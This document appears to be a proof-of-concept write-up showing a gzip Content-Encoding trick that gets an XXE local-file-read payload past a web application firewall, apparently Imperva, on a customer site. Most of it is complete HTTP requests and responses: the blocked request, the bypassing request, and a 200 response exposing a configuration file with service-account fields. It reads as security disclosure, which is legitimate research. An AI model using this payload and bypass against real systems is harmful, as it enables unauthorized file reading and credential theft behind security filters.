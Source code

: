# Demo of the bypass being used to exploit a real customer
Please note the name of the customer has been redacted. In this example we're doing LFI via XXE.

## Without the WAF bypass
First make a request for XXE without using the WAF bypass:

```
POST /HTTPIntNet.aspx HTTP/2
Host: images.example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Cookie: visid_incap_2601068=xxxxx;  incap_ses_1211_2601068=yyyyy
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Content-Length: 216
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Referer: https://images.example.com/foo.aspx
Origin: https://images.example.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///C:/Program Files (x86)/redacted/Common Files/redacted.ini">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
```

Response:
```
HTTP/2 403 Forbidden
Content-Type: text/html
Cache-Control: no-cache, no-store
Content-Length: 866
X-Iinfo: 7-41000613-0 PNNN RT(1639592547810 0) q(0 0 0 0) r(0 -1) B15(3,501529,0) U6
Set-Cookie: incap_ses_1211_2601068=KVPoEbP3dDJg3ktCjFbOEGMyumEAAAAABlII4w2xe7Qi4FUmmOjRCA==; path=/; Domain=.bftg.com

<html style="height:100%"><head><META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW"><meta name="format-detection" content="telephone=no"><meta name="viewport" content="initial-scale=1.0"><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"><script type="text/javascript" src="/_Incapsula_Resource?SWJIYLWA=719d34d31c8e3a6e6fffd425f7e032f3"></script></head><body style="margin:0px;height:100%"><iframe id="main-iframe" src="/_Incapsula_Resource?CWUDNSAI=23&xinfo=7-41000613-0%20PNNN%20RT%281639592547810%200%29%20q%280%200%200%200%29%20r%280%20-1%29%20B15%283%2c501529%2c0%29%20U6&incident_id=1211000510216920672-176505529399184583&edet=15&cinfo=03000000c67f&rpinfo=0&mth=POST" frameborder=0 width="100%" height="100%" marginheight="0px" marginwidth="0px">Request unsuccessful. Incapsula incident ID: 1211000510216920672-176505529399184583</iframe></body></html>
```

## With the WAF bypass
Here's the same XXE request, but using the gzip exploit:
```
POST /HTTPIntNet.aspx HTTP/2
Host: images.example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Cookie: visid_incap_2601068=xxxxx;  incap_ses_1211_2601068=yyyyy
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Content-Length: 216
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Referer: https://images.example.com/foo.aspx
Origin: https://images.example.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Encoding: gzip

<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///C:/Program Files (x86)/redacted/Common Files/redacted.ini">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
```

The XXE payload gets passed by the WAF to the backend server where the XXE payload is triggered, returning the content of the LFI file we requested:
```
HTTP/2 200 OK
Cache-Control: private
Content-Type: text/xml; charset=utf-8
Server: Microsoft-IIS/8.5
X-Aspnet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Wed, 15 Dec 2021 18:25:06 GMT
Set-Cookie: redacted=redacted; path=/; Httponly; Secure
Vary: Accept-Encoding
Set-Cookie: incap_ses_1211_2601068=xxxx=; path=/; Domain=.example.com
X-Cdn: Imperva
X-Iinfo: 13-108070049-108070050 NNYN CT(26 25 0) RT(1639592714064 0) q(0 0 1 0) r(1 1) U6

There is no function named [PxxM-GxxxxxSYSTEM]
CACHEPATH=C:\PROGRAM FILES (X86)\redacted\COMMON FILES\CACHE
CACHEURL=HTTPS://172.n.n.15/CACHE/
[redacted]
REDIRECTREQ=HTTP://Mxxxxxxxx3.example.COM
LASTUSEDPATHCACHE=C:\PROGRAM FILES (X86)\redacted\COMMON FILES\CACHE
[PxxxxxxxxSVC]
SERVICEACCOUNT=
SERVICEPWD=
.
```

The gzip bypass exploit is what made this attack possible. Note that not all webservers will process the request correctly because of the gzip/plain text mismatch, but IIS, Apache, NGINX all appear to work just fine.
